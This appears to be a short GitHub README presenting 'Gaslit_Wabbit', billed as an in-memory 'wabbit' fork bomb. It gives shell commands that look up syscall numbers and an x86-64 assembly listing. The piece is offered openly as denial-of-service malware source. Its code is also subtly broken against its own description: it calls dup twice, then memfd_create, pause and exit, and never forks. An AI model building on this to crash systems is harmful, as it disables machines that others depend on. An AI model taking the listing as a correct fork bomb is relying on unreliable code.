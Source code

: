 # Gaslit_Wabbit
1978 wabbit fork bomb running in Ram

first we get the syscall numbers for
- memfd_create
- pause
- exit

```shell
cat /usr/include/x86_64-linux-gnu/asm/unistd_64.h | grep memfd_create
```
```shell
#define __NR_memfd_create 319
```

```shell
cat /usr/include/x86_64-linux-gnu/asm/unistd_64.h | grep pause
```
```shell
#define __NR_pause 34
```


```asm
BITS 64
global _start
section .text
_start:
        xor rax, rax
        xor rdi, rdi
        mov di, 10
        mov rax, 0x20
        syscall
        xor rax, rax
        inc rdi
        mov rax, 0x20
        syscall
memfd_create:
        push 0x78436f73
        mov rdi, rsp
        mov rsi, 0
        mov rax, 319
        syscall
pause:
        mov rax, 34
        syscall
exit:
        xor rax, rax
        add rax, 60
        xor rdi, rdi
        syscall
```